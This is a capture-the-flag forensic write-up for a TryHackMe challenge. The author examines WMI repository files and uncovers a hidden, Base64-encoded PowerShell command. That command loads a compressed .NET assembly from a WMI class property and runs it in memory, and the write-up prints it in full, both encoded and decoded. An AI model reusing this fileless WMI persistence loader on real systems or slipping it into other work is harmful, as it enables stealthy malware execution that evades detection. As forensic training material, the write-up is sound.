


# [After Hours](https://tryhackme.com/room/hh-afterhours-b090d1f0)

- Day 12 of Hacker Holidays 2026.
- This is a forensic challenge.



- Download the attachment and unzip it.
```
unzip attachments-1784136288483.zip 
Archive:  attachments-1784136288483.zip
  inflating: INDEX.BTR               
  inflating: MAPPING1.MAP            
  inflating: MAPPING2.MAP            
  inflating: MAPPING3.MAP            
  inflating: OBJECTS.DATA            
```
- Let's check the file types.
```
 file INDEX.BTR MAPPING*
INDEX.BTR:    data
MAPPING1.MAP: data
MAPPING2.MAP: data
MAPPING3.MAP: data
```
- `file` cannot identify these files as standard formats, so let's check the headers for each file.
```
~/TryHackMe/Hackers_holiday/After_hours ❯ xxd -l 64 INDEX.BTR 
00000000: ccac 0000 4d00 0000 0000 0000 0000 0000  ....M...........
00000010: 2600 0000 0000 0000 0000 0000 0000 0000  &...............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
~/TryHackMe/Hackers_holiday/After_hours ❯ xxd -l 64 MAPPING1.MAP 
00000000: cdab 0000 5754 0000 7c01 0000 7b01 0000  ....WT..|...{...
00000010: 8b0b 0000 020b 0000 0000 0000 f9ef fe47  ...............G
00000020: 9100 0000 0000 0000 7c01 0000 0300 0000  ........|.......
00000030: 0100 0000 de11 4474 6100 0000 0000 0000  ......Dta.......
~/TryHackMe/Hackers_holiday/After_hours ❯ xxd -l 64 MAPPING2.MAP
00000000: cdab 0000 5a54 0000 7d01 0000 7c01 0000  ....ZT..}...|...
00000010: 8b0b 0000 020b 0000 0000 0000 f9ef fe47  ...............G
00000020: 9100 0000 0000 0000 7d01 0000 0300 0000  ........}.......
00000030: 0100 0000 de11 4474 6100 0000 0000 0000  ......Dta.......
~/TryHackMe/Hackers_holiday/After_hours ❯ xxd -l 64 MAPPING3.MAP
00000000: cdab 0000 6054 0000 7e01 0000 7d01 0000  ....`T..~...}...
00000010: 8b0b 0000 020b 0000 0000 0000 f9ef fe47  ...............G
00000020: 9100 0000 0000 0000 7e01 0000 0300 0000  ........~.......
00000030: 0100 0000 de11 4474 6100 0000 0000 0000  ......Dta.......
~/TryHackMe/Hackers_holiday/After_hours ❯ xxd -l 64 OBJECTS.DATA 
00000000: 2018 0b6f 7001 0000 5900 0000 0000 0000   ..op...Y.......
00000010: ca07 db5d c901 0000 b400 0000 0000 0000  ...]............
00000020: 61dc 4415 7d02 0000 d100 0000 0000 0000  a.D.}...........
00000030: cf46 8da0 4e03 0000 c800 0000 0000 0000  .F..N...........
```
- The `.BTR` extension can commonly refer to a Btrieve database file. In this case, however, `INDEX.BTR` is part of a **Windows Management Instrumentation (WMI) repository**.
- So this forensic challenge is likely going to involve examining WMI data, potentially looking for a malicious WMI subscription, persistence mechanism, or an object containing a payload.
- post from @0xMia says ***the usual autoruns/persistence tools straight up don't catch this one 💀 you're gonna have to dig through the raw data by hand*** 
- Okay, let's dig into the files. We can start by examining the strings in the files. 
- I extracted the strings from both files and saved them to separate files. 
```
strings INDEX.BTR > Strings_index.txt
strings OBJECTS.DATA > Strings_objects.txt
```
```
grep -i "powershell" Strings_*
Strings_index.txt:cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBIAGEAcgBkAHcAYQByAGUAVABlAGwAZQBtAGUAdAByAHkAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAG4AZgBpAGcARABhAHQAYQAnAF0ALgBWAGEAbAB1AGUAOwANAAoAJABvACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQA7AA0ACgAkAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGUAUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApADsADQAKACQAYgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAOwANAAoAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAHcAaABpAGwAZQAoACQAcgAgAC0AZwB0ACAAMAApAHsADQAKACAAIAAgACAAJABvAC4AVwByAGkAdABlACgAJABiACwAMAAsACQAcgApADsADQAKACAAIAAgACAAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAH0ADQAKAFsAUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAJABvAC4AVABvAEEAcgByAGEAeQAoACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsAEAAKAAsAFsAcwB0AHIAaQBuAGcAWwBdAF0AQAAoACkAKQApAHwATwB1AHQALQBOAHUAbABsAA==
```
- We found a Base64-encoded PowerShell payload. Let's decode it.
```
$file = ([WmiClass]'ROOT\cimv2:Win32_HardwareTelemetry').Properties['ConfigData'].Value
$o = New-Object IO.MemoryStream
$d = New-Object IO.Compression.DeflateStream(
    [IO.MemoryStream][Convert]::FromBase64String($file),
    [IO.Compression.CompressionMode]::Decompress
)
$b = New-Object Byte[](1024)
$r = $d.Read($b,0,1024)

while($r -gt 0){
    $o.Write($b,0,$r)
    $r = $d.Read($b,0,1024)
}

[Reflection.Assembly]::Load($o.ToArray()).EntryPoint.Invoke(
    $null,
    @(,[string[]]@())
) | Out-Null
```
- The script accesses a WMI class called **Win32_HardwareTelemetry** and retrieves its **ConfigData** property.
- The value retrieved from `ConfigData` is Base64 encoded. Base64 is an encoding scheme, not encryption. The script decodes it back into raw binary bytes.
- The decoded bytes are compressed using the DEFLATE algorithm. The script reads the compressed stream in chunks of 1024 bytes and writes the decompressed data to a `MemoryStream`.
- The decompressed bytes are treated as a .NET assembly and loaded directly into memory.
- It then invokes the assembly's entry point, executing it.

- So now our task is to retrieve the .NET assembly and reverse engineer it. For that, we need to identify and extract the Base64 data stored in `ConfigData`. 
```
Base64
   ↓
base64 -d
   ↓
compressed binary
   ↓
DEFLATE decompress
   ↓
.NET assembly
```

```
strings -a OBJECTS.DATA | grep -i -A5 -B5 "ConfigData"
->>QN
WDMClassesOfDriver
MS_SystemInformation
C:\Windows\System32\drivers\en-US\mssmbios.sys.mui[MofResource]
Win32_HardwareTelemetry
ConfigData
string
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
AntiVirusProduct
Windows Defender
{D68DDC3A-831F-4fae-9E44-DA132C1ACF46}
```
- Copy the Base64 value and decode it.
```
base64 -d payload.bs64 > payload.deflate
```
- Then I used the following Python script to decompress `payload.deflate` and obtain the final binary.
```
import zlib

input_file = "payload.deflate"
output_file = "payload.bin"

with open(input_file, "rb") as f:
    compressed_data = f.read()

try:
    decompressed_data = zlib.decompress(compressed_data, -zlib.MAX_WBITS)

    with open(output_file, "wb") as f:
        f.write(decompressed_data)

    print(f"[+] Decompressed successfully")
    print(f"[+] Output: {output_file}")
    print(f"[+] Size: {len(decompressed_data)} bytes")

except zlib.error as e:
    print(f"[-] DEFLATE decompression failed: {e}")
```
```
python3 decompress.py 
[+] Decompressed successfully
[+] Output: payload.bin
[+] Size: 4096 bytes
```
```
file payload.bin
payload.bin: PE32 executable for MS Windows 4.00 (GUI), Intel i386 Mono/.Net assembly, 3 sections
```
- Successfully, we got the executable. Now we can perform reverse engineering on it.
```
cp payload.bin payload.exe
```
- To perform the reverse engineering, I am going to use the .NET decompiler [ILSpy](https://github.com/icsharpcode/ilspy).
- Open the `.exe` file in ILSpy. You can find an `After Hours` program. In the `Main` function, you can see a Base64 string. Decoding it gives us the flag.



```
 echo "VEhNe1A0dGNoX29wM25lZF90aDNfQmFjS2QwMHJ9" | base64 -d
THM{P4tch_op3ned_th3_BacKd00r}
```
**FLAG: THM{P4tch_op3ned_th3_BacKd00r}**
